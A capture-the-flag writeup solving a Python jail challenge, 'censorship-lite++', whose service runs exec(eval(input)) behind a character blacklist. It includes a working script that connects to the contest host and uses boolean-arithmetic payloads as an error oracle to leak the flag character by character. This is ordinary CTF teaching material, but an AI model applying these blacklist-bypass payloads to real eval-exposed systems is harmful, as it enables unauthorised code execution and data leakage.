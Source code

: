# censorship-lite++

you may want to read my [censorship-lite](https://github.com/quasar098/ctf-writeups/tree/main/amateursctf-2023/censorship-lite) writeup if you havent already (for background + better understanding)

## problem

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/65b625a5-31fd-44c4-9dbf-91f4ac241070)

main.py
```py
#!/usr/local/bin/python
from flag import flag

for _ in [flag]:
    while True:
        try:
            code = ascii(input("Give code: "))
            if any([i in code for i in "lite0123456789 :< :( ): :{ }: :*\ ,-."]):
                print("invalid input")
                continue
            exec(eval(code))
        except Exception as err:
            print("zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz")
```

## solution

taking a look at allowed keywords, we get these:

```
>>> [code for code in dir(__builtins__) if not any([i in code for i in "lite0123456789 :< :( ): :{ }: :*\ ,-."])] 
['EOFError', 'IOError', 'LookupError', 'OSError', 'TabError', '__doc__', 'abs', 'any', 'chr', 'hash', 'map', 'max', 'ord', 'pow', 'round', 'sum', 'vars']
```

we barely have anything to use, can't even call any functions, so the above is (mostly, you'll see why not fully) useless

luckily, we can still create numbers by adding booleans together, and we can still create booleans because `func==func` is true always.

we don't have access to parenthesis, but we can emulate them using lists and then getting the 0th index of the list by using <br>
`[<thing>][vars!=vars][vars!=vars]`. this is equivalent to `(<thing>)`

my first solution was to compare parts of the flag with characters that we are allowed to use (e.g. `"a"[flag[0]=="a"]`, then check if error), 
but i was in disbelief at how many characters were not allowed to be printed, so we could not check them to see if they were in the flag

i got `amateursCTF{??_?????_??????_????s_???_??_??gh?_??gh?_??_flag_???_the_??gh?_????d_??_?????s?_??v??}` by checking chars that were not allowed in the flag

my realization came eventually that we could compare letters in the flag to each other, instead of to string literals we make<br>
what i mean is from `"a"[flag[0]=="a"]` to `"a"[flag[0]==flag[2]]`

if the output is an error (prints zzzzzzz), then we know that those two characters are equal

then i used intuition and guesswork, along with [crossword solver](https://www.crosswordsolver.org/) to deduce the flag

```py
import socket
from time import sleep
from string import printable as allch

HOST = "amt.rs"
PORT = 31672

chars = "abcdfghjkmnopqrsuvwxyz"
chars += chars.upper()
chars += "_{}.:-=+[]()*!@#$%^&<>,./?"


printable = ""

for _ in allch:
    if _ not in "lite0123456789<:(){}*\\,-.\"' ":
        if 32 < ord(_) < 128:
            printable += _


def get_num(v):
    return "+".join([f"[vars==vars][vars!=vars]"] * v)


def get_char_payload(index2: int, index3):
    thing2 = "+" if index2 else ""
    thing3 = "+" if index3 else ""
    return f'"a"[_[[vars==vars][vars!=vars]%[vars==vars][vars!=vars]{thing2}{get_num(index2)}]==' \
           f'_[[vars==vars][vars!=vars]%[vars==vars][vars!=vars]{thing3}{get_num(index3)}]]'


total = ""
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    s.recv(1024)
    for i2 in range(98):
        for i3 in range(i2, 98):
            if i3 == i2:
                continue
            pl = get_char_payload(i2, i3)
            s.send((pl + "\n").encode('ascii'))
            sleep(0.01)
            if "zzzz" in s.recv(1024).decode('ascii'):
                print(i2, "==", i3)

# a m a t e u r s C T F { l e _ e l i t e _ l i t  t l e _ t i l e s _ l e t _ l e _ l i g h t _ l i
# 0 1 2 3 4 5 6 7 8 9 1011121314151617181920212223 24252627282930313233343536373839404142434445464748
# g h t _ l e _ f l a g _ t i l _ t h e _ l i g h  t _ t i l e d _ l e _ e l i t i s t _ l e v e l }
# 495051525354555657585960616263646566676869707172 73477576777879808182838485868788899091929394959697
```

we get the flag now
